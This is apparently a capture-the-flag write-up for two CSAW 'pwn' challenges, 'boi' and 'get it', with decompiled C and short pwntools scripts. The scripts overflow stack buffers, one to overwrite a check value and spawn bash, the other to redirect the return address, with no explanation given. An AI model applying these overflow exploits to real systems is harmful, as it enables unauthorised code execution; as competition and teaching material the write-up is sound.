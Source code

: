 # Pwn

The following two challenges are so easy that I won't explain.

## boi
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+10h] [rbp-30h]
  __int64 v5; // [rsp+18h] [rbp-28h]
  __int64 v6; // [rsp+20h] [rbp-20h]
  int v7; // [rsp+28h] [rbp-18h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  buf = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0;
  HIDWORD(v6) = -559038737;
  puts("Are you a big boiiiii??");
  read(0, &buf, 0x18uLL);
  if ( HIDWORD(v6) == -889996562 )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```

```python
from pwn import *

p = remote("pwn.chal.csaw.io", 9000)
p.recvuntil("?")
offset = "ABCDEFGHIJKLMNOPQRST"
p.sendline(offset + p32(0xcaf3baee))
p.interactive()
```

## get it

```python
from pwn import *

p = process("./get_it")

payload = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA12345678"
payload += p64(0x4005b6)

p.sendline(payload)
p.interactive()
```
